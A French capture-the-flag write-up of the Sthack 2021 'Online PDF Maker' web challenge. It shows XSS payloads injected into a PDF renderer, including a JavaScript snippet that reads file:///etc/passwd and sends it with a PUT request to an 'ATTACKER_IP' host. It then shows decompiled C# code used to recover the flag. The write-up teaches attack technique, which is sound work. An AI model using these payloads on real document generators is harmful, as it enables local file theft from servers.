 ```yaml
---
title: Web - Online PDF Maker
category: Sthack2021
author: karzemrok
tags:
- sthack2021
- web
- ctf
description: "Writeup Sthack 2021 - Online PDF Maker - WEB"
---
```


L'application disponible nous propose d'entrer un texte et de le transformer en PDF

![]({{site.url}}/static/upload_412dab4cc8bb5e4a25db2b393616317d.png)

Une vulnérabilité courante ici, c'est l'XSS dans le moteur de rendu du PDF. Il est possible de le vérifier avec le payload suivant:

```htmlmixed
<script>
document.write('test');
</script>
```

![]({{site.url}}/static/upload_dd513641a33e58411ece557d3e82cfe2.png)

Il peut être aussi intéressant de savoir d'ou est rendu le PDF

```htmlmixed
<script>
document.write(document.location);
</script>
```

![]({{site.url}}/static/upload_649b2b7457c62b1ec90c026cd3d5b20f.png)

Comme le PDF est rendu depuis un fichier (**file:///tmp/wktemp...**), nous allons pouvoir exfiltrer des fichiers. Nous pouvons par exemple extraire **/etc/passwd** de cette façon

```htmlmixed
<script>
x=new XMLHttpRequest;
x.onload=function(){
    var x2 = new XMLHttpRequest();
    x2.open("PUT", 'http://ATTACKER_IP/sthack/passwd');
    x2.send(this.response)
};
x.open("GET","file:///etc/passwd");
x.responseType = 'arraybuffer';
x.send();
</script>
```

Maintenant que nous sommes en mesure de télécharger des fichiers sur la machine, il nous faut trouver des fichiers intéressants (comme les sources par exemple). Nous avons un indice dans l'HTML de l'application

![]({{site.url}}/static/upload_755639ef667bd38587be7cbcf89d83f0.png)

Nous savons que l'application est de l'ASP.net, il faut donc chercher un fichier **dll**. En tatonnant un peu, on trouve que le nom du fichier dll est le même que le copyright : `OnlinePdfMaker.dll`

Une fois la Dll décompilée avec [ILSpy](https://github.com/icsharpcode/ILSpy), on trouve ce bout de code qui semble gérer l'affichage du flag:

```=
string text = "";
string s = "FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6";
string text2 = "VGhlRmxhZ0lzU29tZXdoZXJlX3VzZV95b3VyX2JyYWlu";
text2 = text2.Substring(1, 1) + text2.Substring(1, 1) + text2.Substring(32, 1) + text2.Substring(4, 1) + text2.Substring(9, 1);
text2 += Encoding.Default.GetString(Convert.FromBase64String("ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp"));
if (!string.Equals(keyValue, text2))
{
	text = ((keyValue != null && !keyValue.Equals("")) ? "Wrong key" : "");
}
else
{
	string text3 = EncryptModel.XORCipher(Encoding.Default.GetString(Convert.FromBase64String(s)), text2);
	text = "flag : " + text3;
}
```

Après la ligne 4, text2 à la valeur `GGbR0`. A cette valeur, on ajoute `ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp` dans sa forme base64 décodée (`don't_guess_look_at_the_code!!_;)`)

Ensuite cette varible est utilisée en tant que clé XOR pour la valeur base64 décodée de `FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6`

Ce qui nous donne le flag `STHACK{W3ll_D0ne_\o/_U_f0und_Th3_c0d3!}`

On aurait aussi pu mettre `GGbR0don't_guess_look_at_the_code!!_;)` dans le paramètre `keyValue` du formulaire de génération de PDF pour voir le flag injecté dans le PDF directement.

![]({{site.url}}/static/upload_d6efbae1ee68a7ac33ac12d65656320b.png)


